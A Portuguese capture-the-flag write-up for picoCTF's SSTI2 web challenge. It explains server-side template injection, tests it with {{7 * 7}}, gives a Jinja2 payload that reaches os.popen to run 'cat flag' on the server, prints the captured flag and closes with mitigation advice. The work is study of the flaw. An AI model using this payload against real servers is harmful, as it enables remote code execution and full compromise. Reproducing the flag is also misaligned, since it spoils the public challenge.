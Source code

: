 # 🦆 DuckWare - SSTI2

--- 

>	Autor: @Ralfbp{Z4π}
---
## ✨ Desafio: Web Exploitation

> Link do desafio: https://play.picoctf.org/practice/challenge/492  
> Link do material: https://portswigger.net/web-security/server-side-template-injection
---
## Introdução

<center><img src= 'SSTI1 fotos/quest.png' ></center>

- Um desafio do site [picoCTF](https://play.picoctf.org/practice), que tem como objetivo a **Web Exploitation**
- **Web Exploitation**: explorar vulnerabilidades em aplicações web para obter acesso não autorizado, extrair informações ou executar ações indevidas.
- Neste desafio será usada a vulnerabilidade **Server-side template injection (SSTI)**.  
-   **Server-side template injection (SSTI)**: ocorre quando a entrada controlada pelo usuário é injetada diretamente em um _template_ do servidor sem o devido tratamento.
-----
## 🧩 Desafio

<center><img src= 'SSTI1 fotos/pagina.png' ></center>  

- Esta é a página exibida ao gerar e clicar no link do [picoCTF](https://play.picoctf.org/practice).

```
	# Home
	
	I built a cool website that lets you announce whatever you want!*
	
	What do you want to announce:
	
	
	
	*Announcements may only reach yourself
```
----
## 🛠️ Resolução

- Inicialmente, é ideal testar como funciona o campo de anúncio do site, por exemplo usando `{{7 * 7}}`.


<center><img src= 'SSTI1 fotos/test.png' ></center>


<center><img src= 'SSTI1 fotos/49.png' ></center>  

- Isso indica que o site está **interpretando a entrada como código dentro de um template engine**.**
- Observando que o nome da questão refere-se a **Server-side Template Injection**, podemos tentar executar comandos do sistema através do template.
- Inserindo o payload abaixo no mesmo campo onde foi colocado `{{7 * 7}}`:
```

	{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}

```


<center><img src= 'SSTI1 fotos/flag.png' ></center>  

---- 
### ✅ Conclusão

Neste desafio identificamos uma vulnerabilidade tipo **SSTI** ao observar que entradas no formato `{{ ... }}` eram avaliadas pelo servidor (por exemplo, `{{7 * 7}}` resultou em `49`). A exploração dessa falha permitiu executar um comando no sistema remoto para ler o conteúdo do arquivo `flag`. Em ambientes reais, essa classe de vulnerabilidade pode possibilitar execução remota de código (RCE) e comprometer completamente o servidor — por isso deve ser corrigida com prioridade. Medidas mitigadoras incluem: não inserir diretamente dados do usuário em templates, escapar/validar entradas, e usar motores de template que não permitam avaliação de expressões arbitrárias.

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
